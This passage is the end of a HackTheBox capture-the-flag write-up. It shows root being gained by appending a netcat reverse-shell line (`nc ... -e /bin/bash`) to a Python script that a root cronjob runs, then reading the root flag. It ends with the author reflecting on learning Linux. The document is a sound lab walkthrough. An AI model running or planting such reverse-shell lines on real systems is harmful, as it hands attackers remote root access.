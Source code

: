 <br>

We just need to use the same method that is already demonstrated in `tmp.py` <br>
Append the command for the simple `nc` revshell onto `tmp.py` using `echo` and `>>`


* `echo "os.system('nc local.machine.ip.addr PORTNUM -e /bin/bash')" >> tmp.py`


<br>
![alt1](https://i.imgur.com/A3yVjgI.png)
<br>

Make sure your `PORTNUM` matches the listener.

<br>
![alt2](https://i.imgur.com/8gOPlvx.png)
<br>



With the trap set, all we have to do is wait for the cronjob to run.<br>
If the process takes more than 5-10 minutes, you have done something wrong.	
Start by checking for typos, incorrect IPs, ports, etc.


#### Soon...

<br>
![A23](https://i.imgur.com/KwNR7Xl.png)	
<br>


The root shell pops open in our 2nd listener!

From here we can do as we please, starting with the capture of the root flag.

`cat /root/root.txt`



## 7. Conclusion

My experience with this box underscored how important it is to actually be familiar with the territory.<br>
I haven't been using Linux very long, and there is so much to know, so much that MIGHT be useful, that it can be paralyzing to find a place to start. 

In this instance, I was able to find a foothold based on context and some prior knowledge. But I got a bit lucky. There have been boxes that stumped me because I *knew* there was something I just hadn't learned yet.<br>
<br>
Time to crack open some books.



*Thanks to HackTheBox and ch33zplz for this CTF!*

[Main Page](index.md)
